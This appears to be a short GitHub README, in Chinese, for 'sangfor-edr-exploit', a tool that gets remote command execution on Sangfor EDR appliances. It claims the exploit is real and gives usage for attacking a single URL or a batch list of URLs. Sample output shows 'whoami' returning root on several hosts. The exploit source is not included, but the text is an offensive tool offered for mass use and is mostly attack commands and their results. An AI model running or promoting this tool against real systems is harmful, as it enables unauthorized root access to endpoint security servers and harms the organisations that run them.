 sangfor-edr-exploit
sangfor-edr-exploit 这是真的

感谢大佬提供命令执行部分代码

空格BUG问题请自行更改代码解决

使用方法
单个url

python edr.py url http://10.10.10.10

Command> whoami
Try http://10.10.10.10
root

批量url 需要在目录下创建xxx.txt 一行一个url

python edr.py file 1.txt whoami

Try: http://10.10.10.10
root
Try: http://10.10.10.11
root
